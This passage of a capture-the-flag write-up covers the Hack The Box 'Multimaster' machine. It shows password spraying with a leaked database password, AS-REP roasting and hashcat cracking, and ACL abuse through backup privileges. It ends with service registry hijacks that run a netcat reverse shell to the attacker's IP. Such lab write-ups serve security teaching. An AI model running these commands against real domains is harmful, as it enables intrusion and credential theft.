Kerberos support for Dynamic Access Control on this device has been disabled.
```

while searching around I cound that I had access to a folder I didn't before...the `wwwroot\` folder in `C:\inetpub\`

```text
*Evil-WinRM* PS C:\inetpub\wwwroot> more index.html
<!DOCTYPE html><html lang=en><head><meta charset=utf-8><meta http-equiv=X-UA-Compatible content="IE=edge"><meta name=viewport content="width=device-width,initial-scale=1"><link rel=icon href=/favicon.ico><title>MegaCorp</title><link rel=stylesheet href="https://fonts.googleapis.com/css?family=Roboto:100,300,400,500,700,900"><link rel=stylesheet href=https://cdn.jsdelivr.net/npm/@mdi/font@latest/css/materialdesignicons.min.css><link href=/js/about.893bb588.js rel=prefetch><link href=/css/app.90380d45.css rel=preload as=style><link href=/css/chunk-vendors.11727d04.css rel=preload as=style><link href=/js/app.eeb965b5.js rel=preload as=script><link href=/js/chunk-vendors.ae41a8ca.js rel=preload as=script><link href=/css/chunk-vendors.11727d04.css rel=stylesheet><link href=/css/app.90380d45.css rel=stylesheet></head><body><noscript><strong>We're sorry but multimaster doesn't work properly without JavaScript enabled. Please enable it to continue.</strong></noscript><div id=app></div><script src=/js/chunk-vendors.ae41a8ca.js></script><script src=/js/app.eeb965b5.js></script></body></html>
```

> We're sorry but multimaster doesn't work properly without JavaScript enabled. Please enable it to continue.

[https://superuser.com/questions/815527/way-to-list-and-cat-all-files-that-contain-string-x-in-powershell](https://superuser.com/questions/815527/way-to-list-and-cat-all-files-that-contain-string-x-in-powershell) `ls -R|?{$_|Select-String 'dummy'}|%{$_.FullName;gc $_}`

Running the command `*Evil-WinRM* PS C:\inetpub\wwwroot\bin> type MultimasterAPI.dll` results in:

```text
IndexDefaultApi+api/{controller}/{id}%/api/getColleagues
                                                             UNION
SELECT  JOINALL EXEC'
                     ORDER--#WAITFOR
                                    DELAY       FROM
                                                    WHEREANDOR&&        LIKESYS%INFORMATION_SCHEMA
MASTER7{ "info" : "MegaCorp API" }!application/json€…server=localhost;database=Hub_DB;uid=finder;password=D3veL0pM3nT!; nameaSelect * from Colleagues where name like '%{0}%'idposition
                                                                               email
                                                                                    image
```

`ls -R -EA SilentlyContinue|?{$_|Select-String 'password'}|%{$_.FullName;}`

### Moving laterally to user3 - `sbauer`

```text
zweilos@kalimaa:~/htb/multimaster$ crackmapexec smb -u users -p passwords -d MEGACORP 10.10.10.179
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\shayna:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\shayna:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\shayna:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\shayna:D3veL0pM3nT! STATUS_LOGON_FAILURE

...snipped...
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP\sbauer:D3veL0pM3nT!
```

I found a password for yet again another user: this time `sbauer`. Accordeing to my searches with Bloodhoud earlier, `jorden` should be next, then `Administrator`. we will see if my projected path from this user was correct.

> GenericWrite Generic Write access grants you the ability to **write to any non-protected attribute on the target object**, including “members” for a group, and “**serviceprincipalnames**” for a user Abuse Info Users With GenericWrite over a user, **perform a targeted kerberoasting attack**. See the abuse section under the GenericAll edge for more information

The following video explains how to exploit this: [https://www.youtube.com/watch?v=z8thoG7gPd0](https://www.youtube.com/watch?v=z8thoG7gPd0)

[http://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/](http://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/)

> we can change a victim’s userAccountControl to not require Kerberos preauthentication, grab the user’s crackable AS-REP, and then change the setting back:

[https://docs.microsoft.com/en-us/powershell/module/addsadministration/set-adaccountcontrol?view=win10-ps](https://docs.microsoft.com/en-us/powershell/module/addsadministration/set-adaccountcontrol?view=win10-ps)

Set-ADAccountControl -DoesNotRequirePreAuth 

> -DoesNotRequirePreAuth Indicates whether Kerberos pre-authentication is required to logon using the user or computer account. This parameter sets the ADS\_UF\_DONT\_REQUIRE\_PREAUTH flag of the Active Directory UAC attribute. The acceptable values for this parameter are:
>
> * $False or 0
> * $True or 1

Then we can use Impacket's GETSPNUSers.py

```text
zweilos@kalimaa:~/htb/multimaster$ evil-winrm -u sbauer -i 10.10.10.179 -p D3veL0pM3nT!

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sbauer\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== =============================================
megacorp\sbauer S-1-5-21-3167813660-1240564177-918740779-3102


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                           Attributes
=========================================== ================ ============================================= ==================================================
Everyone                                    Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
MEGACORP\Developers                         Group            S-1-5-21-3167813660-1240564177-918740779-3119 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

### Moving from `sbauer` to `jorden`

`*Evil-WinRM* PS C:\inetpub> Set-ADAccountControl -DoesNotRequirePreAuth $True jorden`

```text
zweilos@kalimaa:~/.local/bin$ python3 GetNPUsers.py -format hashcat -usersfile /home/zweilos/htb/multimaster/users -debug -dc-ip 10.10.10.179 MEGACORP/sbauer:D3veL0pM3nT!
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[+] Impacket Library Installation Path: /home/zweilos/.local/lib/python3.8/site-packages/impacket
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[+] Trying to connect to KDC at 10.10.10.179
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User aldom doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User alice doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User alyx doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User andrew doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User ckane doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User cyork doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User dai doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[+] Trying to connect to KDC at 10.10.10.179
[-] User ilee doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
$krb5asrep$23$jorden@MEGACORP:1056ca13b19833bd5ae1152f9fe42b5c$112eb867bb4c8c06593c39d27e4ca1167692f7f061691c45cd1825291fd3ae9a7b8130e239d076b0f928fc42e7d683444cb8b3124d54711fbd72278e24cf75f5bd08351fc4b63e43ae9e5affac8b6b702eef582c720ed88855e6c9a6ac41ebe7b5b86fb4043f607a6d4a090022c471183e812d08501d49ae1d2f1c62d35816e95c98437d54e396a1b680b7836a6cad4c3af218d25187bd3ac4df45ffbc13359d7b952b7d841a89ac7a1c8c16ce5625dc03212af744371cb24c611c9ddf0da4c3de5740ea9cdaf09e113d23e9969d4107be3ecc2ceeed48f274f95e5d108ff504fe527ff86a71606d38f5
[+] Trying to connect to KDC at 10.10.10.179
[-] User jsmmons doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User kpage doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[+] Trying to connect to KDC at 10.10.10.179
[-] User lana doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User nbourne doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User okent doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User pmartin doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User rmartin doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User sbauer doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User svc-nas doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User svc-sql doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User tushikikatomo doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User zac doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User zpowers doesn't have UF_DONT_REQUIRE_PREAUTH set
```

the password cracked very quickly

```text
zweilos@kalimaa:~/htb/multimaster$ hashcat -m 18200 -a 0 jorden.hash ~/rockyou.txt
hashcat (v6.0.0) starting...
Dictionary cache built:
* Filename..: /home/zweilos/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921506
* Keyspace..: 14344384
* Runtime...: 2 secs

$krb5asrep$23$jorden@MEGACORP:1056ca13b19833bd5ae1152f9fe42b5c$112eb867bb4c8c06593c39d27e4ca1167692f7f061691c45cd1825291fd3ae9a7b8130e239d076b0f928fc42e7d683444cb8b3124d54711fbd72278e24cf75f5bd08351fc4b63e43ae9e5affac8b6b702eef582c720ed88855e6c9a6ac41ebe7b5b86fb4043f607a6d4a090022c471183e812d08501d49ae1d2f1c62d35816e95c98437d54e396a1b680b7836a6cad4c3af218d25187bd3ac4df45ffbc13359d7b952b7d841a89ac7a1c8c16ce5625dc03212af744371cb24c611c9ddf0da4c3de5740ea9cdaf09e113d23e9969d4107be3ecc2ceeed48f274f95e5d108ff504fe527ff86a71606d38f5:rainforest786

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$jorden@MEGACORP:1056ca13b19833bd5ae11...6d38f5
Time.Started.....: Fri Jul 24 20:36:37 2020 (6 secs)
Time.Estimated...: Fri Jul 24 20:36:43 2020 (0 secs)
Guess.Base.......: File (/home/zweilos/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   740.8 kH/s (13.81ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4407296/14344384 (30.72%)
Rejected.........: 0/4407296 (0.00%)
Restore.Point....: 4390912/14344384 (30.61%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: ramirez@7 -> rageagaint

Started: Fri Jul 24 20:36:14 2020
Stopped: Fri Jul 24 20:36:44 2020
```

the user `jorden`'s password was `rainforest786`

```text
*Evil-WinRM* PS C:\Users\jorden\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== =============================================
megacorp\jorden S-1-5-21-3167813660-1240564177-918740779-3110


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
MEGACORP\Developers                        Group            S-1-5-21-3167813660-1240564177-918740779-3119 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

This user has backup and restore privileges, which if I remember correctly is a quick and easy path to escalate privileges "This privilege causes the system to grant all read access control to any file \(only read\)."

[https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea\_Pierini-Whoami\_Priv\_Show\_Me\_Your\_Privileges\_And\_I\_Will\_Lead\_You\_To\_System.pdf](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf)

> If you have SeBackup& SeRestoreprivileges\(Backup Operators group\) you can set permissio nand ownership on each file & folder =WIN!

```text
*Evil-WinRM* PS C:\Users\jorden\Documents> $user = MEGACORP\jorden
The module 'MEGACORP' could not be loaded. For more information, run 'Import-Module MEGACORP'.
At line:1 char:9
+ $user = MEGACORP\jorden
+         ~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (MEGACORP\jorden:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CouldNotAutoLoadModule
*Evil-WinRM* PS C:\Users\jorden\Documents> $user = 'MEGACORP\jorden'
*Evil-WinRM* PS C:\Users\jorden\Documents> cd c:\
*Evil-WinRM* PS C:\> ls


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/25/2019  12:41 PM                DFSRoots
d-----         1/7/2020   7:23 PM                inetpub
d-----        9/25/2019   5:01 AM                PerfLogs
d-r---         1/9/2020   1:18 PM                Program Files
d-----         1/9/2020   1:18 PM                Program Files (x86)
d-r---         1/9/2020   5:14 PM                Users
d-----         1/9/2020   2:39 PM                Windows


*Evil-WinRM* PS C:\> $folder = 'C:\Users\Administrator'
*Evil-WinRM* PS C:\> $acl = Get-ACL $folder
*Evil-WinRM* PS C:\> $aclperms = $user, "Full Control", "ContainerInherit, ObjectInherit","None","Allow"
*Evil-WinRM* PS C:\> $aclrule = New-Object System.Security.AccessControl.FileSystemAccessRule $aclperms
Cannot convert argument "1", with value: "Full Control", for "FileSystemAccessRule" to type "System.Security.AccessControl.FileSystemRights": "Cannot convert value "Full Control" to type "System.Security.AccessControl.FileSystemRights". Error: "Unable to match the identifier name Full Control to a valid enumerator name. Specify one of the following enumerator names and try again:
ListDirectory, ReadData, WriteData, CreateFiles, CreateDirectories, AppendData, ReadExtendedAttributes, WriteExtendedAttributes, Traverse, ExecuteFile, DeleteSubdirectoriesAndFiles, ReadAttributes, WriteAttributes, Write, Delete, ReadPermissions, Read, ReadAndExecute, Modify, ChangePermissions, TakeOwnership, Synchronize, FullControl""
At line:1 char:12
+ $aclrule = New-Object System.Security.AccessControl.FileSystemAccessR ...
+            ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [New-Object], MethodException
    + FullyQualifiedErrorId : ConstructorInvokedThrowException,Microsoft.PowerShell.Commands.NewObjectCommand
```

Make sure not to have any spaces between words in your command!

### Root.txt

```text
*Evil-WinRM* PS C:\> $aclperms = $user, "FullControl", "ContainerInherit, ObjectInherit","None","Allow"
*Evil-WinRM* PS C:\> $aclrule = New-Object System.Security.AccessControl.FileSystemAccessRule $aclperms
*Evil-WinRM* PS C:\> $acl.AddAccessRule($aclrule)
*Evil-WinRM* PS C:\> Set-Acl -Path $folder -AclObject $acl
*Evil-WinRM* PS C:\> Get-Acl $folder | fl


Path   : Microsoft.PowerShell.Core\FileSystem::C:\Users\Administrator
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         MEGACORP\Administrator Allow  FullControl
         MEGACORP\jorden Allow  FullControl
Audit  :
Sddl   : O:SYG:SYD:PAI(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)(A;OICI;FA;;;S-1-5-21-3167813660-1240564177-918740779-3110)
*Evil-WinRM* PS C:\> cd C:\Users\Administrator
*Evil-WinRM* PS C:\Users\Administrator> ls


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/9/2020   3:18 AM                .vscode
d-r---         1/9/2020   2:45 PM                Contacts
d-r---         1/9/2020   4:43 PM                Desktop
d-r---         1/9/2020   4:35 PM                Documents
d-r---         1/9/2020   2:45 PM                Downloads
d-r---         1/9/2020   2:45 PM                Favorites
d-r---         1/9/2020   2:45 PM                Links
d-r---         1/9/2020   2:45 PM                Music
d-r---         1/9/2020   2:45 PM                Pictures
d-r---         1/9/2020   2:45 PM                Saved Games
d-r---         1/9/2020   2:45 PM                Searches
d-r---         1/9/2020   2:45 PM                Videos


*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/23/2020  10:08 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
fe237d93abd456b96a363e2ed34fb271
```

### Getting Administrator Shell

So now I have successfully exfiltrated the secret documents...but I want to own the system. Time to practice some more privilege escalation.

```text
*Evil-WinRM* PS C:\Users\jorden\Documents> $folder = "C:\Windows\NTDS"
*Evil-WinRM* PS C:\Users\jorden\Documents> $acl = Get-ACL $folder
*Evil-WinRM* PS C:\Users\jorden\Documents> $user = "MEGACORP\jorden"
*Evil-WinRM* PS C:\Users\jorden\Documents> $aclperms = $user, "FullControl", "ContainerInherit, ObjectInherit","None","Allow"
*Evil-WinRM* PS C:\Users\jorden\Documents> $aclrule = New-Object System.Security.AccessControl.FileSystemAccessRule $aclperms
*Evil-WinRM* PS C:\Users\jorden\Documents> $acl.AddAccessRule($aclrule)
*Evil-WinRM* PS C:\Users\jorden\Documents> Set-Acl -Path $folder -AclObject $acl
*Evil-WinRM* PS C:\Users\jorden\Documents> Get-Acl $folder | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Windows\NTDS
Owner  : BUILTIN\Administrators
Group  : MEGACORP\Domain Users
Access : CREATOR OWNER Allow  268435456
         NT AUTHORITY\SYSTEM Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl
         NT AUTHORITY\LOCAL SERVICE Allow  AppendData, Synchronize
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Administrators Allow  268435456
         MEGACORP\jorden Allow  FullControl
Audit  :
Sddl   : O:BAG:DUD:PAI(A;OICIIO;GA;;;CO)(A;OICIIO;GA;;;SY)(A;;FA;;;SY)(A;CI;0x100004;;;LS)(A;;FA;;;BA)(A;OICIIO;GA;;;BA)(A;OICI;FA;;;S-1-5-21-3167813660-1240564177-918740779-3110)
```

I'm sure there is a way I can backup ntds.dit From [https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers): But it seems like I need an admin prompt for this to work

[https://decoder.cloud/2018/02/12/the-power-of-backup-operatos/](https://decoder.cloud/2018/02/12/the-power-of-backup-operatos/)

```text
REG add HKLM\System\CurrentControlSet\Services\WpnUserService_64360ac /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /f
```

Upload nc.exe, then start the service with `sc.exe start <service>`.

```text
*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start WerSvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\Wecsvc /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /f
The operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start Wecsvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\wbengine /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /f
The operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start wbengine
[SC] StartService: OpenService FAILED 1060:

The specified service does not exist as an installed service.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\VSS /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /fThe operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start WerSvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\Wecsvc /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /f
The operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start Wecsvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\wbengine /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /f
The operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start wbengine
[SC] StartService: OpenService FAILED 1060:

The specified service does not exist as an installed service.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\VSS /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /fThe operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

I had to try many services until I found one that would work. Even then, it said it failed to start the service, but I got my shell!

```text
zweilos@kalimaa:~/htb/multimaster$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.179] 49763
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                                             Attributes                                        
========================================== ================ =============================================================== ==================================================
Mandatory Label\System Mandatory Level     Label            S-1-16-16384                                                                                                      
Everyone                                   Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                                    Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6                                                         Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                                        Mandatory group, Enabled by default, Enabled group
NT SERVICE\VSS                             Well-known group S-1-5-80-3195062495-2862850656-3724129271-1847284719-4038691091 Enabled by default, Enabled group, Group owner    
LOCAL                                      Well-known group S-1-2-0                                                         Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544                                                    Enabled by default, Enabled group, Group owner    


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 

ERROR: Unable to get user claims information.

C:\Windows\system32>
```

The process of replicating changes in one master copy of the account database to all other master copies is called a multimaster operation.

limbernie

### Finale

MinatoTW & egre55 Thanks to [`<box_creator>`](https://www.hackthebox.eu/home/users/profile/<profile_num>) for .

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

